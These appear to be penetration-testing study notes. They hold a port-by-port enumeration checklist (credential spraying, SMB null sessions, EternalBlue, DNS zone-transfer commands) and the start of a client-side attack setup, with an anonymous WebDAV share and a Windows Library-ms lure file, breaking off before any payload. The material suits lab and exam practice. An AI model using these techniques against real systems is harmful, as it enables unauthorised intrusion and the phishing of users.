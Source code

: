 
1) AutoRecon
	1) Autorecon *may* be weak on SNMP enumeration
		1) Check [[161,162 UDP - SNMP (Windows)]] for details on further enumeration
2) Target:
	2) 80 HTTP
		1) If it is a template `index.html`, run `gobuster`. If still nothing interesting, move on.
		2) `whatweb 192.168.211.244 -a 3 -v`
	3) 22 SSH
		1) Remember to spray creds here
		2) Remember to try list of default creds here
		3) Note the version
	4) 21 FTP
		1) Spray creds
		2) Note the version
		3) Anonymous log in
	5) 445 SMB
		1) Null session attack
		2) Note the version
		3) Consider EternalBlue
		4) Spray creds
	6) 3389 RDP
		1) Spray creds
	7) 53 DNS (UDP/TCP)
		1) Zone transfer
			1) First, identify DNS servers with `host -t ns example.com`
			2) Next, attempt the transfer with one of the following methods: 
				1) `dnsrecon -d example.com -a`
				2) `dig axfr @ns1.example.com example.com`
				3) `host -l example.com ns1.example.com`
		2) Subdomain enumeration

# Client-Side Attacks
https://filesec.io/ - List of all file extensions and how they are used for client-side attacks

Good general resource for HTA, PDF, Microsoft Word Macro attack:
https://github.com/rodolfomarianocy/OSCP-Tricks-2023/blob/main/client_side_attacks.md

## Windows Library & Shortcut Files

We have to set up a WebDAV server, a Python3 web server, a Netcat listener, and prepare the Windows Library and shortcut files.

### WebDAV Share Setup
```bash
mkdir /home/kali/beyond/webdav

wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
```

### Prepare Windows Library and Shortcut Files
Start Windows development box. Open VSCode and create a new text file on the desktop named `config.Library-ms`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```